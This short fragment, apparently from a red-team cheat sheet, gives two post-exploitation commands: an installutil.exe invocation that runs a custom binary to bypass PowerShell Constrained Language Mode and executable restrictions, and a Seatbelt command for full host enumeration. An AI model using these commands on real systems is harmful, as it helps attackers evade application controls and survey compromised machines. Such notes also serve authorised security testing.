 * Contrained Langauge Bypass. Use installutil to bypass .exe restrictions. `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /logtoconsole=false /U C:\users\Public\bypass-clm.exe`
* Seatbelt.exe `Seatbelt.exe -group=all -full`
